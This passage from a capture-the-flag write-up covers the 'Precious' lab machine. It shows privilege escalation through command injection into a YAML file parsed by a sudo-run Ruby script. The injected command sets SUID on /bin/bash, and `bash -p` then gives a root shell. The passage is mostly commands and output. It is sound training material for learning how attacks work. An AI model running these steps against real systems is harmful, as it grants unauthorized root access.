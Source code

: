 Now, we can run the following command to see if we can execute commands as root:

```bash
henry@precious:/tmp$ chmod +x dependencies.yml
henry@precious:/tmp$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
henry@precious:/tmp$
```

PERFECT!! As we can see, in the malicious `.yml` file we've entered `id` in the `git_sest` parameter, and by executing the file as root, we can see that it gives us `uid=0(root)`. This means that we can execute commands as root. 
To privilege escalate from this point is a piece of cake, you only need to change `id` by `chmod u+s /bin/bash`. This command will give the bash `SUID` permissions, so by executing the bash as its owner (root) we will switch automatically to user `root` even though we don't input any password:

```bash
henry@precious:/tmp$ nano dependencies.yml
henry@precious:/tmp$ chmod +x dependencies.yml
henry@precious:/tmp$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
henry@precious:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
henry@precious:/tmp$ 
```

NICEE!! Here we see that the bash has `SUID` permissions now, so just by executing `bash -p`, we will get as root:

```bash
henry@precious:/tmp$ bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt
6**************************1
bash-5.1# 
```

PERFECT!! Rooted machine!! 

![](/assets/img/precious/9.png)
